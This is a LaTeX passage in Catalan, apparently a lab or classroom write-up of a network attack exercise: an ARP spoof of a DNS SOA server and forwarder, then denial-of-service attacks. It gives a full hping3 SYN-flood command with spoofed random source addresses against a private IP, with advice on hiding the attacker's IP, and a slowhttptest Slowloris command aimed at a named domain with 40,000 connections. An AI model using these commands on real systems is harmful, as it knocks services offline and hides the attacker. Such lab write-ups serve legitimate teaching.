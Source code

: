 \documentclass[]{article}
\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}
\begin{document}
\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  El hacker activar el ARP Spoof amb targets del SOA i el Forwarder.
\item
  El hacker ha realitzat un DOS per tumbar l'apache2 (SOA):
  \texttt{hping3\ -\/-randsource\ -p80\ -S\ -\/-flood\ 10.200.243.164}
\end{enumerate}

Ara explicaré què significa cada part de l'ordre:

\begin{itemize}
\item
  \textbf{p 80} és el port que triem atacar
\item
  S activa el flag Syn
\end{itemize}

-- flood indica a hping que enviï els paquets a la màxima velocitat
possible

\begin{itemize}
\tightlist
\item
  ip\_victima és la \textbf{ip} o \textbf{domini} a atacar
\end{itemize}

Si volem que la nostra ip no sigui visible podem afegir-li l'opció --ai
la ip que falsejarem o bé utilitzar --rand-source amb què es generen
adreces d'origen ip a l'atzar:

\texttt{hping3\ -\/-randsource\ -p80\ -S\ -\/-flood\ 10.200.243.164}

o també podem utilitzar: \texttt{Slowhttptest}, nosaltres utilitzarem
\textbf{slowhttptest}.

\begin{quote}
\emph{slowhttptest - Denial Of Service attacks simulator}
\end{quote}

\texttt{slowhttptest\ -c\ 40000\ -H\ -i\ 30\ -r\ 500\ -l\ 600\ -u\ http://cryptosec.net}

\texttt{-c} \emph{number of connections Specifies the target number of
connections to establish during the test.}

\texttt{-H\textquotesingle{}} \emph{Starts slowhttptest in SlowLoris
mode, sending unfinished HTTP requests.}

\texttt{-i} \emph{seconds Specifies the interval between follow up data
for slowrois and Slow POST tests.}

\texttt{-r} \emph{connections per second Specifies the connection rate.}
\end{document}
